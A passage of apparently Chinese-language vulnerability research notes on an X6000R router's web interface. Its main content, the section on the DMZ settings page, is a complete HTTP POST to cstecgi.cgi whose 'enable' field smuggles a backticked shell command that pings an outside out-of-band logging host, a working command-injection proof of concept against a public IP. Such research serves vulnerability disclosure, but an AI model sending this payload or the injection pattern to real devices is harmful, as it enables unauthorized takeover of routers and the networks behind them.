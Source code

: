 

也找不到。。。



# 11. `advance/dmz.html` ✔️

![image-20241029210906592](./X6000R/images/image-20241029210906592.png)

```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/dmz.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 poc.wuxln8i9.eyes.sh`","topicurl":"setDmzCfg"}
```



# 12. `/advance/wifi_schedule.html`

what can i say :?

![image-20241029211056774](./X6000R/images/image-20241029211056774.png)